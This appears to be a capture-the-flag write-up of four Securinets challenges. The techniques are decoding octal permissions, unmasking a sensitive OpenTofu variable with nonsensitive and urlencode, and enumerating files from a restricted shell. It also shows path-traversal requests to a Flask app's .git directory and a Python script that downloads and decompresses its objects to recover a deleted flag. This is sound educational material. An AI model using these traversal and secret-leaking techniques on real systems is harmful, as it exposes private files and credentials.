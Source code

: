 # Perms
This task is an easy one. It was solved by 22 teams. We were provided with a `challenge.txt` file containing linux permissions on each line.
With no description or hints provided with the task , i considered calculating permissions using an online calculator. [Link](https://nettools.club/chmod_calc)

Then, I used [Cyberchef](https://gchq.github.io/CyberChef/) with the `from octal` function to decrypt the message and get the flag.


# Openheimer
Task description : terraform's good, but have you tried opentofu?

We were provided with a netcat to interact with the server , which had an OpenTofu console running, along with a main.tf file.

![image](https://github.com/Garroura/CyberTEK/assets/164345052/f0d50c05-3a50-498f-a305-180c316a8e44)

This task was an opportunity to learn about terraform and opentofu, a free terraform fork. [OpenTofu](https://opentofu.org)

With the console running, I attempted various console commands using the documentation . [Doc](https://opentofu.org/docs/cli/commands/console/)

![image](https://github.com/Garroura/CyberTEK/assets/164345052/b04d894e-7137-4ada-af83-370ab58428d9)

To print the value of our variable named `SECRET` , we can use `var.SECRET` but is says `(sensitive value)` which is obvious because `sensitive` is set to `True`.
So we need to baypass this and print the value. 
Going through the terraform commands [link](https://developer.hashicorp.com/terraform/language/functions/nonsensitive) we found that the `nonsensitive` command takes a sensitive value and returns a copy of that value with the sensitive marking removed, thereby exposing the sensitive value.

![image](https://github.com/Garroura/CyberTEK/assets/164345052/f5a1d4eb-2054-4fe8-a0ec-e542a23ec918)


As we can see it is refusing to print the value in plaintext so we will try weak encoding functions starting with `base64encode` .
![image](https://github.com/Garroura/CyberTEK/assets/164345052/c16c0ec1-c480-4987-9d00-b6fa52b0851a)

We can see here thas he is blacklisting some functions so we will try different encoding techniques. As we go through , the `urlencode` function is printing something.

![image](https://github.com/Garroura/CyberTEK/assets/164345052/11087099-314e-4f3c-b2bc-6bb5310d89a3)

Using the urldecode function  in Cyberchef we get our flag in ascii .

`Securinets{oP3N7OfU_I5_4w35Om3_8U7_83c4R3FuL_WH3n_WORkin9_Wi7h_53Cr3Ts}`

# bolbok

Task description : Bolbok is scared of the arcane and has hidden his secret in this restricted shell.

Using the netcat to connect to the server , we have a shell but we can only use some commands. I used the Offsec Handbook, it helps a lot [Offsec](https://0xffsec.com/handbook/shells/restricted-shells/)

To see writable variables i used `export -p`. 

![image](https://github.com/Garroura/CyberTEK/assets/164345052/5ead06c3-2c0b-42be-9246-e45173fba38d)

As we can see the commands we can execute are stored in /usr/bolbok/cmds 

I used `echo /usr/bolbok/cmds/*` to list the directories in the file.

![image](https://github.com/Garroura/CyberTEK/assets/164345052/c670dc26-3286-4384-b9dd-bddd9186413a)

Since we can execute the `ls` command , we can use -l to show all details about the files,  ``-a`` to print all hidden files and directories and ``-R`` for recursive mode , to list all directrories starting with ``/`` ( `ls -laR /`)

Exploring the listed directories we can find a hidden file named ``.flag`` in `/usr/share/misc/bolbok/directorysecrets/youwillneverfindthis`

![image](https://github.com/Garroura/CyberTEK/assets/164345052/e791a61a-c182-4254-a529-e927ca7e8f65)

Now , knowing the directory and the flag format we can use `grep -r "Securi" /usr/share/misc/bolbok/secrets/youwillneverfindthis` 

![image](https://github.com/Garroura/CyberTEK/assets/164345052/62d58771-afb8-4d0b-b217-367981c982e9)

`Securinets{wH47_W45_7H47_3x4C7LY?4n_R845h_j41l??_0r_ls_4nd_grep_L3550n}`

# Ekko 
Task description : ls & cat made easy.

We were provided with a web page displaying its source code written in Flask and a dockerfile.

![image](https://github.com/Garroura/CyberTEK/assets/164345052/aec601f1-47d7-4f02-af0d-c97d20afd4b0)

![image](https://github.com/Garroura/CyberTEK/assets/164345052/c380ed98-7b96-4919-9e7c-cdac11895bb6)


Going through the code , we see that we can use the commands `ls` and `cat` with `q` as a query parameter. 
Looking at the docker file , we knew that there is a `.git` file in the app directory so we tried to acces it using  `https://ekko.securinets-tekup.tech/ls?q=../app/.git`.

![image](https://github.com/Garroura/CyberTEK/assets/164345052/43012f69-e16d-4894-a58f-f582ea94dd63)


We tried to go through each file and look for sensitive information , so i found this using `https://ekko.securinets-tekup.tech/cat?q=../app/.git/logs/HEAD`

![image](https://github.com/Garroura/CyberTEK/assets/164345052/60c8fbaf-6167-45ae-8be9-c4137dc2f6b8)


The commit history and their hashes revealed that the user added a file named flag.txt to the git, then deleted it. To recover this, we needed to go back to that commit.

Going through the git [docs](https://git-scm.com/book/fr/v2/Les-tripes-de-Git-Les-objets-de-Git)  and doing some researchs , we found that the git commits are stored in the `/.git/objects` directory using the commit hash (This is how Git initially stores content - one file per content, named after the SHA-1 checksum of the content and its header. The subdirectory is named after the first 2 characters of the fingerprint and the file after the remaining 38 characters). I tried the hash of the commit containing the flag.txt using `/cat?q=../app/.git/objects/c3/af58e5721c2dbd456ddef869a6a95d0eac473f`
It shows non printable caracters and some encoded strings.

![image](https://github.com/Garroura/CyberTEK/assets/164345052/a1693c54-37b1-430a-a773-4105f2db1587)

Using the same git documentation , i looked for how blobs are encoded in git and i found that it is `zlib` compressed.
We wrote a solver to get all the files in ``/.git/objects`` and decompress the content of each file in order to get the flag .
```
import os
import requests, re

url = "https://ekko.securinets-tekup.tech/"

get_objects = requests.get(url + "ls?q=../app/.git/objects/" )
obj = re.findall('\w+', get_objects.text)

destination_folder = "Files"
if get_objects.status_code == 200:
    for i in obj:
        com = requests.get(url + "ls?q=../app/.git/objects/" + i + '/')
        get_com = re.findall('\w+',com.text)
        for commut in get_com:
            blob = requests.get(url + "cat?q=../app/.git/objects/" + i + '/' + commut)
            with open(commut + ".zlib", 'wb') as f:
                f.write(blob.content)
            print("Downloaded successfully:", commut + ".zlib")
        else:
            print("Failed to download:", blob.status_code)
```

````
import os
import zlib
folder_path = '`File'

# Iterate through all files in the folder
for filename in os.listdir(folder_path):
    file_path = os.path.join(folder_path, filename)
    try : 
        with open(file_path,'rb') as f:
            ct= f.read()
        a = (zlib.decompress(ct))
        print(f" : {file_path} :  {a}")
    except : continue
````

`Securinets{y43h_n0w_U_Kn0W_Wh4T_15_917_bL0bS}`


